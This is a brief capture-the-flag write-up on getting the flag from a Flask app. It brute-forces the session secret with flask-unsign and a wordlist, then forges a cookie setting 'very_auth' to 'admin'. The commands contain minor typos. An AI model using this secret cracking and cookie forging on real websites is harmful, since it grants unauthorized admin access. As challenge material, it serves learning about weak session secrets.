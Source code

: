 >On analyzing server.py code we find out that the code will check for the session cookie "very auth" and if the session cookie key value is equal to the admin it will redirect us to flag.html page which will have our flag.
>We are also provided with webpage and as the name itself suggests "cookies" we know there is something related to the cookies of the webpage so we ::
Inspect > Application > Storage > Cookies
From there, we see a cookie named session having certain value.

- #### Then using the folowing Block of command on our terminal we will find our flag :
$ pip install flask-unsign[//wordlist]
$ flask-unsign --unsign --cookie <your session cookie value> --wordlist wordlist.tx
> after certain number of attempts we will find our key
- #### Then using this command will provide us with session cookie value:
$ flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret <secret key>

Using this value we can find our flag from the Webpage.


